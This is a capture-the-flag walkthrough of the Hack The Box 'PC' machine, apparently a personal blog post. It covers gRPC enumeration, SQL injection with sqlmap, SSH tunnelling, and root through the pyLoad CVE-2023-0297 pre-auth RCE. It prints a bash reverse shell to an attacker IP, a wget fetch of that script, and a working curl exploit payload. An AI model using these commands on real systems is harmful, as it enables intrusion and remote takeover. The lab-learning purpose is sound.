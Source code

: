 ```yaml
---
title: PC Walkthrough - Hackthebox
author: D_C4ptain
date: 2023-06-14 09:36:00 +0300
categories: [hackthebox, walkthrough]
tags: [hackthebox, pc, walkthrough, writeup, privilege escalation, sqlmap, burpsuite, nmap, gRPC, ssh, pyload, netcat, RCE, cve, d_captain, D_C4ptain]
math: true
mermaid: true
image:
  path: /assets/img/posts/htb/pc/pc1.png
---
```


### Scanning and Enumeration

Let’s do some port scanning.

```bash
nmap -p- 10.10.11.214 --min-rate 1500 -vv -Pn
```

![pc2.png](/assets/img/posts/htb/pc/pc2.png)

We identify a port for ssh and another unknown port.

```bash
sudo nmap -sSVC -p50051,22 10.10.11.214 -vv -Pn
```

![pc3.png](/assets/img/posts/htb/pc/pc3.png)

Checking the ssh service further revealed nothing interesting. 
Looking at the site 10.10.11.214:50051 I found nothing but a bunch of weird characters.

![pc3b.png](/assets/img/posts/htb/pc/pc3b.png)

Decided to google out on port 50051. [link here](https://www.h3c.com/en/d_202212/1731698_294551_0.htm) I found it to be serving a gRPC channel by default.

![pc4.png](/assets/img/posts/htb/pc/pc4.png)

Did some research and found a WEB UI for interacting with gRPC [here.](https://github.com/fullstorydev/grpcui)

I installed it and accessed the gRPC server:

```bash
go/bin/grpcui -plaintext 10.10.11.214:50051
```

I poked several methods on the UI and realized I needed account credentials with some ID and a token to “getinfo”. I tried to log in with an ‘admin’ account and got a token and an ID.

![pc5.png](/assets/img/posts/htb/pc/pc5.png)

Let’s get that ‘info’

![pc6.png](/assets/img/posts/htb/pc/pc6.png)

Nothing useful here!

![pc7.png](/assets/img/posts/htb/pc/pc7.png)

Decided to check the request with burpsuite. Playing around with repeater I attempted IDOR related stuff till I decided to ‘inject’

![pc8.png](/assets/img/posts/htb/pc/pc8.png)

I saved the request for SQLMap.

```bash
sqlmap -r Downloads/grpc.req --batch -a --dump-all
```

Got some creds!

![pc9.png](/assets/img/posts/htb/pc/pc9.png)

### Initial Foothold

Let’s SSH to the machine using the credentials obtained.

![pc10.png](/assets/img/posts/htb/pc/pc10.png)

And we have our flag! kill that rat!

### Privilege Escalation

I checked for vectors like “sudo -l” and binaries with SUID bits but got nothing. Used linpeas and got nothing still.

I decided to check socket statistics with:

```bash
ss -tnl
```

I noticed port 8000 listening on localhost.

![pc11.png](/assets/img/posts/htb/pc/pc11.png)

Let us do SSH tunnelling on it. Read about [SSH tunnelling(SSH portforwarding) here](https://linuxize.com/post/how-to-setup-ssh-tunneling/).

```bash
ssh -L 1337:127.0.0.1:8000 sau@10.10.11.214
```

![pc12.png](/assets/img/posts/htb/pc/pc12.png)

The port 8000 is now accessible to us through port 1337. Let us access in http.

```bash
http://127.0.0.1:1337/
```

![pc13.png](/assets/img/posts/htb/pc/pc13.png)

Found a login page with what looked like a python module. I checked the page source and tried some credentials but that didn’t work.

Checked for any processes linked to pyload:

```bash
ps aux | grep -i pyload
```

![pc15.png](/assets/img/posts/htb/pc/pc15.png)

Found it running as root!

I did some research and found that pyload is susceptible to a pre-authenticated RCE vulnerability **CVE-2023-0297.** [Link here](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)

![pc14.png](/assets/img/posts/htb/pc/pc14.png)

I created a bash reverse shell file and uploaded to target machine with python and wget.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.37/1338 0>&1
```

> On my kali
> 

```bash
python -m http.server 9090 -d Desktop
```

![pc16.png](/assets/img/posts/htb/pc/pc16.png)

> On target:
> 

```bash
wget http://10.10.16.20:9090/rev.sh

chmod +x rev.sh
```

![pc17.png](/assets/img/posts/htb/pc/pc17.png)

Let’s set up a netcat listener and craft our exploit(edit where necessary).

![pc18.png](/assets/img/posts/htb/pc/pc18.png)

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"bash%20/home/USER/rev.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

Let’s go ahead and execute the exploit on target machine.

![pc19.png](/assets/img/posts/htb/pc/pc19.png)

And we get a privileged shell!

![pc20.png](/assets/img/posts/htb/pc/pc20.png)

Go ahead and kill that flag!

Well, There are many ways of killing a rat!

Happy Hacking.